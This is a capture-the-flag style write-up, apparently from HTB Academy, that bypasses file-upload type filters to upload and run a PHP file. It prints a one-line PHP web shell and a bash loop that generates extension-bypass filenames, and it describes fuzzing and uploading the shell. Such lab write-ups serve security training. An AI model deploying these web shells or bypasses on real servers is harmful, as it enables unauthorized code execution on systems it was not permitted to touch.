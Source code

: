 # Type Filters
<br>
 The above server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image. 
 Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at "/flag.txt"

 `Hint`: Start with a request that can be uploaded (e.g. jpg image), then try to find an allowed PHP extension that doesn't get blocked,
 then utilize one of the whitelist filter bypasses to bypass both extension filters.

 ---
- Test payload:
  ```php
  <?php echo "Hello HTB"; ?>
  ```
- Basic web shell:
  ```php
  <?php system($_REQUEST['cmd']); ?>
  ```
 - Web-all-content-types wordlist: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt

- We download the wordlist and filter for image-related `content-type`:
```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-all-content-types.txt
cat web-all-content-types.txt | grep 'image/' > image-content-types.txt
```
Note: `/image/jpg` is not in the list.

- Common mime types:
  - `jpeg`: `FF D8 FF`
  - `gif`: `GIF8` (GIF87a | GIF89a)

  <br>

 ---
<br>

# Exercise

## Fuzzing the `Content-Type` Header

We performed fuzzing on the `Content-Type` header to determine which types are allowed:  
![image](https://github.com/user-attachments/assets/b6376c4b-05d7-4821-80c6-04b0901559b9)  
![image](https://github.com/user-attachments/assets/287f8443-d7fc-41c0-93af-7140125607ca)  

The results revealed that the following types are permitted:  
- `image/gif`  
- `image/jpeg`  
- `image/png`  

Manually testing also confirmed that `image/jpg` is allowed.  


---

## Testing File Content Using Magic Bytes

We tested the uploaded files' content by checking their **magic bytes** to determine the permitted MIME types:  
![image](https://github.com/user-attachments/assets/b5d9d02b-5984-48b1-9473-bfd797379b27)  


---

## Attempting to Upload a `.php` Web Shell

We tried uploading a web shell with a `.php` extension. However, the server responded with the following error:  
**`Extension not allowed`**:  
![image](https://github.com/user-attachments/assets/290960dc-0829-456a-a84f-2c4ece59ded5)  

---

## Fuzzing Whitelist with Common Web Extensions

To investigate whether any web extensions other than image extensions were allowed, we fuzzed the server with **common web extensions** from SecLists.  
Unfortunately, no additional web extensions were accepted in the whitelist:  
![image](https://github.com/user-attachments/assets/c1bb7c02-26fc-47f6-a32c-0a0d3bf25942)  
![image](https://github.com/user-attachments/assets/05e266e9-ec3a-4658-a82a-47d273a079e2)  

---

## Observations

- **Blacklist Validation:** When the server uses a blacklist, it rejects files with `.php` extensions and responds with `Extension not allowed`.  
- **Whitelist Validation:** When the server uses a whitelist, it only accepts image extensions and responds with `Only images are allowed` for any other file types.


# Extension Fuzzing with a Custom Wordlist

We will perform extension fuzzing using a custom wordlist containing various payloads designed to bypass both whitelists and blacklists. To generate this wordlist, we used the following script:
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':' ';'; do
    for ext in '.php' '.phps' '.php2' '.php3' '.php4' '.php5' '.php6' '.php7' '.php8' '.pht' '.phar' '.phpt' '.pgif' '.phtml' '.phtm'; do
        echo "shell$char$ext.gif" >> wordlist.txt
        echo "shell$ext$char.gif" >> wordlist.txt
        echo "shell.gif$char$ext" >> wordlist.txt
        echo "shell.gif$ext$char" >> wordlist.txt
    done
done
```

![image](https://github.com/user-attachments/assets/d38dc1fb-0145-46e3-995e-b62b0d0f235a)
![image](https://github.com/user-attachments/assets/b5a30412-a7dc-4b71-ac59-7668dd551648)



# Accessing Uploaded Extensions and Executing Code

We observed that several extensions could be successfully uploaded. Next, we made a request to view the uploaded files and performed fuzzing using the same wordlist. This approach also tested access to the previously uploaded files:

![Fuzzing Uploaded Files](https://github.com/user-attachments/assets/daa20c87-d26a-4232-88f7-1b2935ae3e55)

## Identifying Executable Extensions

Among all the files that were successfully uploaded and accessible (status code 200), only a few were able to interpret and execute code:

![Executable Extensions](https://github.com/user-attachments/assets/3b96a212-41bd-46c3-aa74-8b3c1cb721d4)

## Deploying the Web Shell

We uploaded the web shell:

![Uploading Web Shell](https://github.com/user-attachments/assets/a3ea2241-07b1-4707-b1b1-3139e46985d5)

Then, we accessed the previously uploaded file:

![Accessing Web Shell](https://github.com/user-attachments/assets/efeea997-8b73-45b4-bbca-22ac059d925d)

## Capturing the Flag

Finally, we retrieved the flag and completed the lab:

![Flag Retrieved](https://github.com/user-attachments/assets/9782e1f3-54f1-4c10-93b5-e96ea9ba8600)







